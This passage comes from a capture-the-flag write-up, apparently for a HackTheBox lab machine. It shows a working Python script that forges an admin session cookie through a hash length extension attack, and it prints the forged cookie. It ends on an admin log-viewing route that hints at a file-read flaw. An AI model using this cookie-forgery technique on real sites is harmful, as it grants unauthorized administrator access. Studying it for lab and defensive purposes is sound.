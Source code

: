 ## Signing in as the admin

Now we have the secret, it's time to work out what we can use it for. The way the cookies are signed is vulnerable to a Hash Length Extension attack. A good explanation can be found [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks), but the basic theory is that even if you don't know the secret you can append data to the end of the hash simply by continuing the hashing algorithm.

I'll be using `hashpumpy` to extend the hashes.

```python
from base64 import b64encode
from requests import get
from hashpumpy import hashpump

current = b'username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;'
signature = b'2f27b9b63baea689f848b5e333426973f97a5e49b9f8f3ad4fac45943b61a372'          # change per instance!
append = b';username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;'

for x in range(8, 15):
    new_signature, value = hashpump(signature, current, append, x)
    cookie = b64encode(value) + b'.' + b64encode(bytes.fromhex(new_signature))

    r = get('http://intense.htb/admin', cookies={'auth' : cookie.decode()})
    
    if r.status_code != 403:
        print(cookie)
```

{% hint style="danger" %}
The signature changes every reset, so make sure you update it!
{% endhint %}

I got the cookie

```
dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.Kj3kZb1zkyyn0eUdcAEy/u2k0TZJWvUAIDCmPuLqdNU=
```

Updating it in `Inspect Element` works!

![We're now an admin](<../../../../.gitbook/assets/image (29).png>)

## Analysing the Source as Admin

A logical place to look now would be `admin.py`.

```python
@admin.route("/admin/log/view", methods=["POST"])
def view_log():
    if not is_admin(request):
        abort(403)
    logfile = request.form.get("logfile")
    if logfile:
        logcontent = admin_view_log(logfile)
        return logcontent
    return ''


@admin.route("/admin/log/dir", methods=["POST"])
def list_log():
```
